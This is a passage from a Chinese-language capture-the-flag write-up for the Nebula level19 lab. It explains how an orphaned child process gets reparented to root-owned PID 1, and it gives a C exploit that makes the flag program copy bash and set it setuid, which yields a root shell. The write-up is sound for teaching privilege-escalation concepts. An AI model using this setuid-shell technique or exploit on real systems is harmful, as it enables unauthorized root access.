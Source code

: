 该程序的逻辑是，判断父进程的uid是否为0（即root用户），如果是则可以执行shell程序。所以我们的目的就是在执行此程序的时候，让它的父进程的uid为0。

在常规下情况下执行程序，程序的父进程都是用户所登陆的shell，其父进程uid即为登录用户uid。我们显然不可能以root用户登录，要如何才能实现程序的父进程uid为0呢？

这就让我们想到了**孤儿进程**的处理机制：在Linux中，一个子进程的父进程如果在子进程结束之前便退出，那么该子进程就会被pid为1的进程接管，它的父进程会变更为1号进程。而1号进程的uid即为root。

编写程序：

``` c
#include <stdlib.h>
#include <stdio.h>
#include <unistd.h>

int main() {
	if (fork() == 0) {
		sleep(1);
		execl("/home/flag19/flag19", "sh", "-c", "cp /tmp/bash /home/flag19/; chmod +s /home/flag19/bash", (char*)0);
		err(1, "Unable to exec flag19");
	}
	return 0;
}
```

在上述程序中，直接创建子进程执行flag19程序，并设置好了要执行的命令，为了保险起见、让父进程先退出，先让子进程休眠1s；父进程就直接退出。

![Level19](Exploit-exercises-Nebula-remaining/level19_1.png)